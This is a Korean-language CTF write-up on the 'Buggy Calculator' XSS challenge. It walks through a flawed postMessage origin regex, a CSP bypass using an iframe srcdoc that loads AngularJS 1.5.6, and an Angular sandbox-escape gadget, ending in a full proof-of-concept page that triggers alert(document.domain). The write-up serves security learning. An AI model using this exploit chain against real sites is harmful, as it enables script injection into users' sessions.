 ```yaml
---
layout: post
date: 2021-06-11 00:00:11
title: "Buggy Calculator Write Up"
categories: CTF
tags: [XSS]
author:
  - Jeongwon Jo

---
```

## Descriptions

Buggy Calculator 문제는 CSP 및 SOP를 우회하고 XSS를 트리거 하는 문제이다.

---
## Analysis

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Buggy%20Calculator/images/1.png?raw=true)

문제로 들어오면 위와 같이 계산기가 있는 것을 볼 수 있고, 우리가 일반적으로 사용하는 방식과 동일하고, 숫자 및 연산자를 제외한 값들은 사용할 수 없다. 일단 여기에서는 따로 할 수 있거나 알 수 있는 게 없기 때문에 코드를 확인 해 보기로 했다.


```html
<meta http-equiv="Content-Security-Policy" content="script-src 'unsafe-eval' 'self'; object-src 'none'">
```
일단 코드를 보니 제일 위에 `meta`를 이용해서 `CSP`를 설정하고 있는 것을 볼 수 있다. CSP가 설정이 되어 있기 때문에 `<script>`, `<img>`와 같은 태그들을 이용해서 XSS 익스 시도를 할 수 있지만 CSP에 의해서 스크립트 실행은 되지 않을 것 이다. 그렇기 때문에 일단 해야 할 것 중 하나는 CSP 우회이다.

```html
		<script src="angular.min.js"></script>
		<script src="jquery.min.js"></script>
		<script src="script.js"></script>
```
밑으로 가서 코드를 확인해 보니 위와 같이 리소스 파일을 랜더링 하는 것을 볼 수 있다. 여기서 중요한 부분은 `angular.min.js` 파일을 랜더링 해온다는 것 이다. ` AngularJS`에서 사용되는 가젯들을 이용해서 XSS 익스를 시도할 수 있는데, 이를 이용하면 `CSP`를 쉽게 우회할 수 있을 거 같다.

```
/*
 AngularJS v1.5.6
 (c) 2010-2016 Google, Inc. http://angularjs.org
 License: MIT
*/
```
` AngularJS`의 버전을 확인해 보니 `1.5.6`인 것을 볼 수 있다. 버전마다 사용하는 가젯이 다르기 때문에 이제 해당 버전을 기반으로 해서 XSS 페이로드를 찾으면 된다. 나는 Owasp PDF에서 찾았다.

```js
function sendEquation(msg){
	theiframe.postMessage(msg);
}
```
```html
<iframe name="theiframe" style="height:65px;width:100%; left:-100px; margin-top:-05px;margin-bottom:-30px;" frameBorder="0" src="frame.html"></iframe>
```
위 리소스 파일들을 보면 `script.js` 파일도 랜더링 하는 것을 볼 수 있는데, 코드를 확인해보면 제일 밑에 위와 같이 `theiframe`라는 `iframe`으로 `postMessage` 메서드를 이용해서 값을 전달해주는 것을 볼 수 있고, 코드를 보면 위와 같이 `frame.html`을 끌어와서 사용하는 것도 볼 수 있다.

```html

<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8">
		<meta http-equiv="Content-Security-Policy" content="script-src 'unsafe-eval' 'self'; object-src 'none'">
		<link href='https://fonts.googleapis.com/css?family=Ubuntu:400,700' rel='stylesheet' type='text/css'>
		<script src="frame.js"></script>
		<style>
		html {
			clear: both;
			font-family: digital;
			font-size: 24px;
			text-align: right;
			letter-spacing: 5px;
		    font-family: 'Ubuntu', sans-serif;
		    overflow: hidden;
		}
		</style>
		<title></title>
	</head>
	<body>
		0
	</body>
</html>
```
위 코드는 `frame.html`의 코드인데 잘 보면 `frame.js`를 끌어와서 사용하는 것을 볼 수 있다. 지금까지 분석을 통해서 알 수 있는 건 게산기를 통해서 `1+1`을 입력 받고, 이를 `postMessage` 메서드를 이용해서 `frame.html`로 전달 하고, `frame.js`에서 특정 로직을 거치고 `<body>`의 삽입하는 거 같다. 즉, 우리가 원하는 값을 `body`의 삽입할 수 있으면 XSS 트리거를 할 수 있다.

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Buggy%20Calculator/images/2.png?raw=true)

즉, 위 부분이 `frame.html`이라고 봐도 무방하다.

```js
window.addEventListener("message", receiveMessage, false);

function receiveMessage(event) {

	// verify sender is trusted
	if (!/^http:\/\/calc.buggywebsite.com/.test(event.origin)) {
		return
	}
	
	// display message 
	msg = event.data;
	if (msg == 'off') {
		document.body.style.color = '#95A799';
	} else if (msg == 'on') {
		document.body.style.color = 'black';
	} else if (!msg.includes("'") && !msg.includes("&")) {
		document.body.innerHTML=msg;
	}
}
```
위 코드는 `frame.js`의 코드이다. 잘 보면 `postMessage` 메서드로 전달 받은 값을 `receiveMessage` 메서드로 받고, 처리하는 것을 볼 수 있다. 이때 조건문을 이용해서 origin을 확인하는 것을 볼 수 있다. 즉, 해당 프레임으로 요청을 보낼 수 있는 건 `http://calc.buggywebsite.com`라는 오리진을 가진 애들이다.

```js
if (!/^http:\/\/calc.buggywebsite.com/.test("http://calc.buggywebsite.com.example.com")) {
    console.log("Same Origin Plz..");
}
> undefined
```
조건문을 위와 같이 확인을 해보면 정규식이 `^` 이기 때문에 `http://calc.buggywebsite.com.example.com`와 같은 오리진을 가진 사이트에서 요청을 보내줘도 필터링에 걸리지 않는 것을 볼 수 있다. `https://bugpoc.com/` 에서 프론트 엔드를 원하는 오리진으로 생성할 수 있는데 이를 이용해서 poc 코드를 올려주게 되면 위 구문은 쉽게 우회할 수 있다.

그리고 오리진 검사 로직을 통과하게 되면 msg 값을 조건문을 상황에 맞게 실행시키는 것을 볼 수 있는데, 여기서 제일 밑 조건문 내부를 보면 msg의 값을 innserHTML 메서드를 이용해서 돔 내부에 삽입하는 것을 볼 수 있는데 HTML 5에서는 innserHTML의 값으로 `<script>`가 들어오게 되면 스크립트 태그를 실행시키지 않기 때문에 `<script>` 태그를 제외한 나머지 태그를 이용해서 XSS 트리거를 해야 한다.

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Buggy%20Calculator/images/3.png?raw=true)

그래서 이미지 태그를 이용해서 XSS를 트리거 하려 했지만 frame.html에도 csp가 설정이 되어 있어 csp에 걸리는 것을 볼 수 있다. 결국에는 AngularJS 가젯을 이용해서 XSS를 트리거 해야 하는데 `frame.html`에는 `angular.min.js` 파일이 랜더링 되어 있지 않기 때문에 `<script>` 태그를 이용해서 불러와줘야 한다. 그치만 우리는 `<script>` 태그를 사용할 수 없다.

하지만 `<iframe>` 태그의 srcdoc 속성을 이용해서 프레임 내에 `<script>` 태그를 이용하면 iframe 내부에서 별도로 코드를 실행 시키기 때문에 이를 우회하고 스크립트 태그를 실행 시킬 수 있다. 

```html
<iframe srcdoc="<script src=/angular.min.js></script><div ng-app>{{ 7*7 }}</div>"></iframe>
```
그래서 위와 같이 페이로드를 작성해주었다. socdoc를 보면 `<script>` 태그를 이용해서 앵귤러 파일을 랜더링 해준 후에 앵귤러 표현식을 이용해 주었다. `<div>` 태그의 들어 있는 `ng-app`은 이 태그를 기준으로 앵귤러를 사용하겠다는 지시문이다. 

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Buggy%20Calculator/images/4.png?raw=true)

돔으로 넣어주니 iframe 내에서 스크립트 태그가 잘 실행 됐고, 앵귤러 표현식도 잘 되는 것을 볼 수 있었다.

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Buggy%20Calculator/images/5.png?raw=true)

이제 앵귤러 표현식으로 가젯을 이용해서 alert() 함수를 실행 시켜 주면 된다. 가젯을 이용한 XSS Poc 코드는 [Owasp](https://owasp.org/www-chapter-london/assets/slides/OWASPLondon20170727_AngularJS.pdf)에서 확인할 수 있었다. 위 사진을 보면 `{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}`가 있는 것을 볼 수 있고 해당 Poc를 이용하면 XSS를 트리거 할 수 있다.

---
## Exploit

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Buggy%20Calculator/images/trigger.gif?raw=true)

---
## Poc (Sollution)

```html
<!DOCTYPE html>
<html>
    <head>
        <title>Poc XSS about Calculate</title>
    </head>
    <script>
        const win = window.open('http://calc.buggywebsite.com/frame.html');
        const exploit = function(){
            setTimeout(function(){ win.postMessage(["<iframe srcdoc=\"<script src=/angular.min.js><\/script><div ng-app>{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(document.domain)');}}</div>\"></iframe>"],'*') }, 3000);
        }
      </script>
    <body>
        <h1>BugPoc XSS Challenge</h1>

        <h3>If you click the button below and execute poc code, You can trigger the xss.</h3>
        <input type="button" onclick=exploit() value="Trigger">
    </body>
</html>
```

---
## Reference

[https://munhwasudo.tistory.com](https://munhwasudo.tistory.com/entry/2-ngapp-nginit-%EC%82%AC%EC%9A%A9%ED%95%98%EA%B8%B0-AngularJS%EA%B0%9C%EB%85%90-%EA%B0%84%EB%8B%A8%ED%95%9C-todo%EA%B0%9D%EC%B2%B4-%EB%A7%8C%EB%93%A4%EC%96%B4%EB%B3%B4%EA%B8%B0)<br>
[https://developer.mozilla.org/ko/docs/Web/API/Window/postMessage](https://developer.mozilla.org/ko/docs/Web/API/Window/postMessage)<br>
[https://owasp.org/www-chapter-london/assets/slides/OWASPLondon20170727_AngularJS.pdf](https://owasp.org/www-chapter-london/assets/slides/OWASPLondon20170727_AngularJS.pdf)

---
